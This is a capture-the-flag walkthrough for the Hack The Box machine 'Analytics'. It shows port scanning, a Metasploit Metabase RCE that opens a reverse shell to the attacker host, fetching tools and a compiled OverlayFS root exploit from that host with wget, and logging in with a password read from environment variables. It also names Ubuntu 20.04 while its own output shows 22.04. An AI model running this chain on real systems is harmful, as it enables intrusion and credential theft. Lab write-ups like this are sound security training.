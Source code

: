 ```yaml
---
author: pl4int3xt
layout: post
title: Analytics
date: '2023-11-07 07:40:44 +0300'
cover: img/cover_images/41.png
description: "Analytics is an easy linux machine from HTB"
categories: [HTB]
---
```


## Machine Info

> **[Analytics](https://app.hackthebox.com/machines/Analytics)** is an easy linux machine which leverages `Metabse RCE` and `Ubuntu OverLaysFs Local privesc`

## ENUMERATION
We perform a simple scan for top 100 ports

```bash
nmap -sV -sC -top-ports 100 10.10.11.233
```

output

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.88s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.83 seconds
```

Since we have port 80(HTTP) open we add the ip to our hosts file 

```bash
echo '10.10.11.233 analytical.htb' | sudo tee -a /etc/hosts
```

After opening the browser we click the login button and we are directed to another subdomain. We proceed again and add it to the hosts list

![img-description](/img/analytical/1.png)

```bash
echo '10.10.11.233 data.analytical.htb' | sudo tee -a /etc/hosts
```

We get a metabase login page. We google for any available exploits for the service.

![img-description](/img/analytical/2.png)

After some google searching i came across this [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

We proceed to msfconsole since the exploit is available
```bash
msf6 > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > 
```

Use show options command to see the options required and set them

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST tun0
LHOST => 10.10.16.54
```
Lets run the exploit and boom "WE ARE IN"

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.16.54:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.16.54:4444 -> 10.10.11.233:52878) at 2023-11-07 08:14:43 +0300

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
whoami
metabase
```

Next we need to get and run linpeas to see if we can get something misconfigured in the system. We start our python server to upload linpeas
```bash
sudo python -m http.server 80
```

```bash
cd /home/metabase
wget http://10.10.16.54/linpeas.sh
```

```bash
bash linpeas.sh
```

After running linpeas.sh we get META_USER and META_PASS in the environment variables

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?
SHELL=/bin/sh
MB_DB_PASS=
HISTSIZE=0
HOSTNAME=1786d82953d0
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
HISTFILE=/dev/null
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=7
MB_DB_USER=
```

We ssh into the machine with the credentials 
```bash
ssh metalytics@10.10.11.233
password: An4lytics_ds20223#
```

```bash
metalytics@analytics:~$ ls
1  m  tmp  u  user.txt  w
```
## PRIVILEGE ESCALATION

We check the os version and find it is Ubuntu 20.04 LTS which has a public [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493?source=post_page-----bd3421cba76d--------------------------------)
```bash
metalytics@analytics:~$ cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

We download the exploit and compile it on our local machine
```bash
gcc exploit.c -o exploit
```

We start our server again and get the exploit
```bash
sudo python -m http.server 80
``` 

```bash
wget http://10.10.16.54/exploit
```

We change the permissions of the file and run it. We are now r00t

```bash
metalytics@analytics:~$ chmod +x exploit
metalytics@analytics:~$ ./exploit
bash-5.1#
```

![img-description](/img/analytical/3.png)
